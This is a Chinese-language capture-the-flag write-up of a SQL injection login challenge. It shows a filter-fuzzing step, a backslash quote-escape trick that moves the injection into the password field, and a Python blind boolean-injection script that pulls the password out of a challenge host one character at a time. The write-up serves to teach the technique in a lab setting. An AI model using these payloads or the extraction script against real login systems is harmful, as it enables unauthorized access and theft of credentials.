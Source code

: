 ```yaml
---
Author: Coder-LYQ
Date: 2021-1-5
---
```


## 思路
1. 打开网页，直接显示的就是登录框，首先尝试万能密码，`admin' and 1=1#`，密码随便输，发现网页提示hack，说明网页应该有检测输入中是否含有特定关键字，因此可以考虑使用burpsuite的intruder进行测试。

   <img src="images/image-20210105195303604.png" alt="image-20210105195303604" width="40%;" />

   <img src="images/image-20210105195351652.png" alt="image-20210105195351652" width="50%;" />

2. 从robots.txt发现hint.txt，发现线索：

   <img src="images/image-20210106211834712.png" alt="image-20210106211834712" width="50%;" />

3. 利用前面提过的fuzz.txt，进行fuzz。发现union select and = 这些被检测，所以不能使用联合注入。但是用于布尔注入和报错注入的一些关键字均未被检测。

   <img src="images/image-20210105200652806.png" alt="image-20210105200652806" width="50%;" />

4. 参考其他wp，利用**转义符`\`**，将username后面的'转义成普通字符，password字段后面的语句便能逃逸执行。

5. 测试`admin\`，`or 1#`
   此时SQL语句为：`select * from users where username='admin\' and password='or 1#'`

   转义符将'转义成一个普通的字符，因此此时的sql语句实际含义为username=`admin\' and password=`，以及执行后面的or 1 #。

6. 利用password的内容进行布尔注入爆破。

   ```python
   import requests
   url = "http://bc5d0433-45b5-486d-8fdd-541a8662fd10.node3.buuoj.cn/index.php"
   
   data = {"username":"admin\\","password":""}
   result = ""
   i = 0
   
   while( True ):
   	i = i + 1 
   	head=32
   	tail=127
   
   	while( head < tail ):
   		mid = (head + tail) >> 1
   
   		#payload = "or/**/if(ascii(substr(username,%d,1))>%d,1,0)#"%(i,mid)
   		payload = "or/**/if(ascii(substr(password,%d,1))>%d,1,0)#"%(i,mid)
   		
   		data['password'] = payload
   		r = requests.post(url,data=data)
   		while r.status_code == 429:
               print('too fast')
               time.sleep(2)
   		   r = requests.post(url,data=data)
   		if "stronger" in r.text :
   			head = mid + 1
   		else:
   			tail = mid
   	
   	last = result
   	
   	if head!=32:
   		result += chr(head)
   	else:
   		break
   	print(result)
   
   ```

   


## 总结
- **转义符**的使用以及结合盲注

